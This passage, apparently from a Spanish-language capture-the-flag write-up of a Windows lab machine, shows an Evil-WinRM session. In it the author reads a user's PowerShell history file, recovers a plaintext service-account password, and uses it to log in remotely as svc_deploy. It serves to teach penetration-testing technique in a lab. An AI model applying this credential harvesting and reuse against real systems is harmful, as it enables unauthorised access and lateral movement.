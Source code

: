 No vemos algún permiso interesante, así que vamos a tratar de ver el historial de comandos de powershell del usuario bajo la ruta `$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` de acuerdo con el artículo [powershell-history-file](https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html):

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> dir


    Directory: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2022  11:46 PM            434 ConsoleHost_history.txt


*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>
```

Vemos una conexión utilizando el usuario **svc_deploy**, así que vamos a tratar de acceder como dicho usuario:

```bash
❯ evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
